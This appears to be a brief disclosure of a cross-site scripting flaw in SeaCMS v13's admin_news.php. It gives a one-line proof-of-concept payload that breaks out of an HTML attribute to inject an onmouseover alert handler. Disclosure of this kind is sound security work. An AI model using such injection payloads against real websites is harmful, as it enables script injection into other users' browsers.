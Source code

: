 

<font style="color:rgb(31, 35, 40);">filename: \SeaCMS_13\Upload\7hwcvn/admin_news.php</font>

<font style="color:rgb(31, 35, 40);"></font>

<font style="color:rgb(0, 0, 0);background-color:rgb(252, 252, 252);">Seacms v13 is vulnerable to Cross Site Scripting (XSS) </font>

<font style="color:rgb(0, 0, 0);background-color:rgb(252, 252, 252);"></font>

---

<h1 id="verification"><font style="color:rgb(31, 35, 40);">Verification</font></h1>














<font style="color:rgb(0, 0, 0);background-color:rgb(252, 252, 252);">input " onmouseover=alert(0) type=" </font>

<font style="color:rgb(0, 0, 0);background-color:rgb(252, 252, 252);">  






  
 

